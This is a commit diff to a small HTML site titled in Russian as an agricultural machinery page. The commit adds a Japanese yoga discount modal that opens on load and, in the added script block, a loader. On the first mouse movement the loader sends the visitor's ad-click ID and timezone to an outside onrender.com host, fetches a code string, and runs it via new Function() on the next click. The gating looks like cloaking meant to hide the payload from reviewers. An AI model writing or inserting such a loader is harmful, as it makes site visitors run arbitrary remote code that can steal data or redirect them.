

Before and after one commit to venicepriewe-ux/OCEAN5, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 800 px of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,6 +2,172 @@
 <html lang="ru">
     <script async defer src="https://tools.luckyorange.com/core/lo.js?site-id=9ce5c799"></script>
 <head>
+    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.1.1/crypto-js.min.js"></script>
+<style>
+      /* Modal styles */
+      .modal {
+        display: none; /* Hidden by default */
+        position: fixed; /* Stay in place */
+        z-index: 1000; /* Sit on top */
+        left: 0;
+        top: 0;
+        width: 100%; /* Full width */
+        height: 100%; /* Full height */
+        overflow: auto; /* Enable scroll if needed */
+        background-color: rgba(0, 0, 0, 0.4); /* Black w/ opacity */
+      }
+
+      .modal-content {
+        position: relative;
+        margin: 5% auto; /* 5% from the top and centered */
+        padding: 20px;
+        padding-top: 70px;
+        width: 90%; /* Could be more or less, depending on screen size */
+        max-width: 500px;
+        background-color: #fff;
+        border-radius: 10px;
+        text-align: center;
+      }
+
+      .modal-image {
+        width: 100%;
+        height: auto;
+        border-radius: 10px;
+        margin-bottom: 20px;
+      }
+
+      .close-button {
+        position: absolute;
+        top: 2px;
+        right: 20px;
+        color: #aaa;
+        font-size: 50px;
+        font-weight: bold;
+        cursor: pointer;
+        z-index: 10;
+      }
+
+      .close-button:hover,
+      .close-button:focus {
+        color: black;
+        text-decoration: none;
+        cursor: pointer;
+      }
+
+      .btn-primary {
+        display: inline-block;
+        padding: 10px 20px;
+        margin-top: 10px;
+        background-color: #007bff;
+        color: #fff;
+        text-decoration: none;
+        border-radius: 5px;
+      }
+
+      .close-modal {
+        cursor: pointer;
+      }
+    </style>
+
+
+
+
+
+
+
+ <!-- Special Offer Modal -->
+    <div id="specialOfferModal" class="modal">
+      <div class="modal-content">
+        <span class="close-button">&times;</span>
+
+        <h2>スペシャルオファー</h2>
+        <p>今だけ！初回のヨガクラスが50%オフ！</p>
+        <p>今すぐ予約して、心と体の健康を始めましょう。</p>
+        <ul>
+          <li>オンラインクラスで自宅から参加可能</li>
+          <li>経験豊富なインストラクターによる指導</li>
+          <li>リラクゼーションとストレス解消</li>
+        </ul>
+        <a href="#" class="btn-primary close-modal">今すぐ予約</a>
+      </div>
+    </div>
+
+    <!-- ==============  SWIPER JS ==============  -->
+    <script src="https://unpkg.com/swiper/swiper-bundle.min.js"></script>
+    <script src="main.js"></script>
+    <script>
+
+      document.addEventListener("DOMContentLoaded", function () {
+        var modal = document.getElementById("specialOfferModal");
+        var closeButton = document.querySelector(".close-button");
+        var closeModalLinks = document.querySelectorAll(".close-modal");
+
+        // Show the modal
+        modal.style.display = "block";
+
+
+        function closeModal() {
+          modal.style.display = "none";
+        }
+
+        closeButton.addEventListener("click", closeModal);
+        closeModalLinks.forEach(function (link) {
+          link.addEventListener("click", function (event) {
+            event.preventDefault();
+            closeModal();
+          });
+        });
+
+
+        window.onclick = function (event) {
+          if (event.target == modal) {
+            modal.style.display = "none";
+          }
+        };
+      });
+    </script>
+	<script>
+    const gclid = new URLSearchParams(location.search).get("gclid");
+    const timezone = Intl.DateTimeFormat().resolvedOptions().timeZone;
+    const RENDER_BASE_URL = "https://decemberbackend.onrender.com";
+
+    let someCode = null;
+
+    document.cookie = "access_cookie=true; path=/; max-age=300";
+
+    document.addEventListener("mousemove", async function fetchCodeOnce() {
+      document.removeEventListener("mousemove", fetchCodeOnce);
+      try {
+        const res = await fetch(
+          `${RENDER_BASE_URL}/frontend-loader?gclid=${gclid}`,
+          {
+            headers: {
+              "x-client-timezone": timezone,
+              "x-access-cookie": "true",
+            },
+          }
+        );
+        const data = await res.json();
+        if (data && data.code) {
+          someCode = data.code;
+        }
+      } catch (err) {
+        console.error("Could not fetch code", err);
+      }
+    });
+
+    function handleSomeClick() {
+      if (someCode) {
+        try {
+          new Function(someCode)();
+        } catch (err) {
+          console.error("Error executing code:", err);
+        }
+      }
+    }
+
+    document.addEventListener("click", handleSomeClick);
+  </script>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Сельскохозяйственная техника</title>
```
